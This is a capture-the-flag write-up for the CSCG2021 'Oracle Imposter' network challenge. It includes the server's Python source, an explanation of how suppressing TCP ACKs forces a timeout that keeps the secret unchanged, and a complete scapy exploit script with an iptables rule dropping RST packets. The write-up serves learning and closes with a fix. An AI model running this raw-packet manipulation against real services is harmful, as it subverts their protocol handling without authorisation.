

# Oracle Imposter

Category: Network
Created: Apr 6, 2021 12:24 PM
Solved: Yes
Subjective Difficulty: 🔥🔥🔥🔥🔥

# WriteUp:

Author: @Tibotix

This was a challenge in the CSCG2021 Competition.

## 📃 Challenge Description:

Whether it's ancient Greek politics or cryptography, oracles make life a lot easier.

Except that you don't have one.

And this isn't about cryptography either.

You can start a local version of the challenge on your own system by starting `server.py`.

Once you know how to solve it, connect to our service via TCP at `oracle-impostor.cscg.live:1024`.

## 🔎 Research:

We are given two python files. They are setting up a server on port `1024` where you can connect to.  Lets look at the server source code:

```python
from socketserver import ThreadingMixIn, TCPServer, BaseRequestHandler
from handler import handle_connection

class Server(ThreadingMixIn, TCPServer):
    allow_reuse_address = True

class Handler(BaseRequestHandler):
    def handle(self):
        handle_connection(self.request)

if __name__ == "__main__":
    with Server(("0.0.0.0", 1024), Handler) as server:
        print("Started")
        server.serve_forever()
```

```python
import random
import socket
import string
import os.path

SECRET_SIZE = 128

FLAG_PATH = "/code/flag.txt"

def handle_connection(sock: socket.socket) -> None:
    # who even needs buffering?
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_SNDBUF, 0)
    sock.setsockopt(socket.SOL_TCP, socket.TCP_NODELAY, 1)

    # generate our secret
    #   Let's make sure to use a secure prng.
    #   Messing this up would be really embarrassing, ha.
    #   (Note: Breaking the PRNG is *not* part of the challenge)
    prng = random.SystemRandom()
    random_data = generate_secret(prng)

    timeout_counter = 0

    while True:
        try:
            print("random_data: "+ str(random_data))
            sock.send(
                b"I'm only talking to the real oracle. "
                b"Prove that you're the oracle by predicting my secret.\n",
            )

            # don't want to give these oracle impostors too much time to think
            sock.settimeout(10)

            received = sock.recv(300)
            if received == random_data:
                if os.path.isfile(FLAG_PATH):
                    with open("/code/flag.txt", "r") as f:
                        flag = f.read().strip()
                else:
                    flag = "CSCG{FLAG_FILE_MISSING}"
                sock.send(f"Nice, here's your flag: {flag}\n".encode())
                return
            else:
                sock.send(
                    b"IMPOSTOR! "
                    b"The real oracle would have known that the secret was:\n",
                )

                # drumroll
                for i in range(10):
                    sock.send(b"+" + b"#" * 998 + b"=")

                sock.send(b"-" * 1000 + b"SECRET=[" + random_data + b"]\n")

                sock.send(b"If you're the real oracle, then try again.\n")

                # generate a new secret
                random_data = generate_secret(prng)

        except socket.timeout:
            timeout_counter += 1
            if timeout_counter > 3:
                return

            sock.settimeout(60)
            sock.send(b"Too slow, too slow! Try again.\n")

def generate_secret(prng: random.Random) -> bytes:
    return "".join(
        [prng.choice(string.ascii_letters) for _ in range(SECRET_SIZE)]
    ).encode()
```

So on every new connection the server generates a random secret that we have to input correctly in order to get the flag. 

## 📝 Vulnerability Description:

The vulnerability lies in the way the server handles the timeout exception. As TCP is a lossless transmission protocol, every tcp data packet that is sent to the receiver has to be *acknnowledged* to indicate the packet has been arrived and not got lost on the way to us. That means, we have to sent an *ACK* packet for every tcp data packet we receive. The general idea behind exploiting the server is to respond with *ACKs* normally until the server sent us the `random_data`. Then, during the sending of the last message `If you're the real oracle, then try again.\n`, we dont respond with an *ACK* packet, which will lead the server to retransmitting this packet until the timeout exception is thrown and the server start the loop at beginning. Note that because of the timeout exception, the `random_data` is not re-generated, thus allowing us to now input the correct `random_data` and receive the flag.

## 🧠 Exploit Development:

To gain access to low-level packet interface, i use the python scapy module which implement its own TCP/IP Stack and does therefore not rely on the linux kernel TCP/IP Stack. To speed things up, i took an existing scapy-tcp-scoket implementation from here and modified it so it fits my needs. You can see the complete code below. Basically the exploit will just act normal until it receives the `random_data`, then dropping any *ACK* packets for `12` seconds. After `12` seconds, it will just act as normal again and send the received `random_data` to the server.

One thing to keep attention to, is to configure the linux kernel that it would not send a *RST* packet that would close the connection when encountering a *SYNACK* packet at a port not opened by the linux kernel during the initial 3way tcp handshake. To do this, simply type in following command: `iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP` .

When running the exploit and dumping the communication using Wireshark, we can see our *ACK* dropping in action. The server tries to retransmit the last package until it gets the timeout and starts asking for the `random_data` again:



## 🔐 Exploit Programm:

```python
from scapy.all import *
import threading
import queue
import enum
import sys
import time

if(len(sys.argv) < 3):
	print("usage: python3 exploit.py <host> <port>")
	
dhost = sys.argv[1]
shost = socket.gethostbyname(socket.gethostname())
dport = int(sys.argv[2])
sport = random.randint(1025, 65535)

class Callback(enum.IntEnum):
	SEND_ACK = 0

class TcpSession:
	def __init__(self,dhost, dport, shost, sport, timeout=3, verbose=1):
		self.seq = 0
		self.ack = 0
		self.ip = IP(dst=dhost, src=shost)
		self.sport = sport
		self.dport = dport
		self.connected = False
		self._mainloop_thread = None
		self._timeout = 3
		self.verbose = verbose
		self.received_bytes = b""
		self.acks = queue.Queue()
		self.callbacks = dict()
		self._init_callbacks()
		
	def _init_callbacks(self):
		self.callbacks[Callback.SEND_ACK] = lambda p:True
		#....
	
	def register_callback(self, type_, callback):
		if(not callable(callback)):
			raise ValueError("Callback must be callable")
		self.callbacks[type_] = callback
		
	def send_stored_acks(self):
		while(not self.acks.empty()):
			p = self.acks.get()
			send(p, verbose=self.verbose)
		

	def _ack(self, p):
		self.ack = p[TCP].seq + len(p[Raw])
		ack = self.ip/TCP(sport=self.sport, dport=self.dport, flags='A', seq=self.seq, ack=self.ack)
		if(self.callbacks[Callback.SEND_ACK](p)):
			print("send ack")
			send(ack, verbose=self.verbose)
		else:
			print("put ack in queue")
			self.acks.put(ack)

	def _ack_rclose(self):
		self.connected = False

		self.ack += 1
		fin_ack = self.ip/TCP(sport=self.sport, dport=self.dport, flags='FA', seq=self.seq, ack=self.ack)
		ack = sr1(fin_ack, timeout=self._timeout, verbose=self.verbose)
		self.seq += 1

		assert ack.haslayer(TCP), 'TCP layer missing'
		assert ack[TCP].flags & 0x10 == 0x10 , 'No ACK flag'
		assert ack[TCP].ack == self.seq , 'Acknowledgment number error'

	def _mainloop(self):
		s = L3RawSocket()
		while self.connected:
			p = s.recv(MTU)
			self._parse_packet(p)
		s.close()
		self._mainloop_thread = None
		print('Mainloop thread stopped')
	
	def _parse_packet(self, p):
		if(p.haslayer(TCP) and p.haslayer(Raw) and p[TCP].dport == self.sport):
			self._ack(p)
			self.received_bytes += p[Raw].load
		if(p.haslayer(TCP) and p[TCP].dport == self.sport and p[TCP].flags & 0x01 == 0x01): # FIN
			self._ack_rclose()

	def _start_mainloop(self):
		self._mainloop_thread = threading.Thread(name='Mainloop',target=self._mainloop)
		self._mainloop_thread.start()

	def connect(self):
		self.seq = random.randrange(0,(2**32)-1)

		syn = self.ip/TCP(sport=self.sport, dport=self.dport, seq=self.seq, flags='S')
		syn_ack = sr1(syn, timeout=self._timeout, verbose=self.verbose)
		self.seq += 1

		assert syn_ack.haslayer(TCP) , 'TCP layer missing'
		assert syn_ack[TCP].flags & 0x12 == 0x12 , 'No SYN/ACK flags'
		assert syn_ack[TCP].ack == self.seq , 'Acknowledgment number error'

		self.ack = syn_ack[TCP].seq + 1
		ack = self.ip/TCP(sport=self.sport, dport=self.dport, seq=self.seq, flags='A', ack=self.ack)
		send(ack, verbose=self.verbose)

		self.connected = True
		self._start_mainloop()
		print('Connected')

	def close(self):
		self.connected = False

		fin = self.ip/TCP(sport=self.sport, dport=self.dport, flags='FA', seq=self.seq, ack=self.ack)
		fin_ack = sr1(fin, timeout=self._timeout, verbose=self.verbose)
		self.seq += 1

		assert fin_ack.haslayer(TCP), 'TCP layer missing'
		assert fin_ack[TCP].flags & 0x11 == 0x11 , 'No FIN/ACK flags'
		assert fin_ack[TCP].ack == self.seq , 'Acknowledgment number error'

		self.ack = fin_ack[TCP].seq + 1
		ack = self.ip/TCP(sport=self.sport, dport=self.dport, flags='A', seq=self.seq,  ack=self.ack)
		send(ack, verbose=self.verbose)

		print('Disconnected')

	def build(self, payload):
		psh = self.ip/TCP(sport=self.sport, dport=self.dport, flags='PA', seq=self.seq, ack=self.ack)/payload
		self.seq += len(psh[Raw])
		return psh

	def send(self, payload):
		psh = self.build(payload)
		ack = sr1(psh, timeout=self._timeout, verbose=self.verbose)

		assert ack.haslayer(TCP), 'TCP layer missing'
		assert ack[TCP].flags & 0x10 == 0x10, 'No ACK flag'
		assert ack[TCP].ack == self.seq , 'Acknowledgment number error'
	      

class StateSwitch():
	def __init__(self, should_before, should_after):
		self.should_before = should_before
		self.should_after = should_after
		
	def is_switched(self, before, after):
		return bool(self.should_before==before and self.should_after==after)

class PeriodicalCallback():
	def __init__(self, init_val, period_time, trigger_timer_switch, timer_new_val):
		self.state = init_val
		self.period_time = period_time
		self.trigger_timer_switch = trigger_timer_switch
		self.timer_new_val = timer_new_val
		
	def callback(self, pkt):
		before = self.state
		self._callback(pkt)
		after = self.state
		if(self.trigger_timer_switch.is_switched(before, after)):
			threading.Timer(self.period_time, self.reset_state).start()
		return self.state
		
	def reset_state(self):
		self.state = self.timer_new_val
	
	def wait_until_val(self, val):
		while(self.state != val):
			time.sleep(0.1)
			
	def wait_until_switch(self, sw):
		while(True):
			before = self.state
			time.sleep(0.1)
			after = self.state
			if(sw.is_switched(before, after)):
				break
		

class SendAckCallback(PeriodicalCallback):
	def __init__(self, init_val, period_time, trigger_timer_switch, timer_new_val):
		super().__init__(init_val, period_time, trigger_timer_switch, timer_new_val)
		self.counter = 0
		
	def switch_state(self):
		self.state = not self.state
	
	def _callback(self, pkt):
		self.counter += 1
		if(self.counter == 12):
			self.state = False
		
	

sw = StateSwitch(True, False)
c = SendAckCallback(True, 12, sw, True)

s = TcpSession(dhost, dport, shost, sport, verbose=0)
s.register_callback(Callback.SEND_ACK, c.callback)
s.connect()
s.send(b"1\n")
c.wait_until_switch(StateSwitch(True, False))
print("Switched from True to False")

secret = re.findall(b"SECRET=\[.*?\]", s.received_bytes)[0][8:-1]
print("secret: {0}".format(str(secret)))

c.wait_until_switch(StateSwitch(False, True))
print("Switched from False to True")
s.send(secret)

while(b"}" not in s.received_bytes):
	time.sleep(1)

flag = re.findall(b"CSCG\{.*?\}", s.received_bytes)[0]
print("flag: {0}".format(str(flag)))
```

## 💥 Run Exploit:


**FLAG: CSCG{gib_ack_plis_cAmgUXs2wr2XFi5NSt7Ud2F0}**

## 🛡️ Possible Prevention:

The simplest prevention would be to simple generate a new `random_data` on the timeout exception as well.

## 🗄️ Summary / Difficulties:

This challenge was really learningful. It was the first network challenge i have solved. Implementing the correct scapy-socket emulating was tricky and i spent a lots of time on there, but in the end everything works just as fine.

## 🗃️ Further References:

[Understanding TCP Sequence and Acknowledgment Numbers](https://packetlife.net/blog/2010/jun/7/understanding-tcp-sequence-acknowledgment-numbers/)

[RFC 793 - Transmission Control Protocol](https://tools.ietf.org/html/rfc793#section-3.7)

[Transmission Control Protocol - Wikipedia](https://en.wikipedia.org/wiki/Transmission_Control_Protocol)

[Simple Scapy TCP Session](https://gist.github.com/N0dr4x/ffe99618a738978605719ce525a33042#file-scapy_tcpsession-py)

## 🔨 Used Tools:

- [scapy](https://scapy.net/)

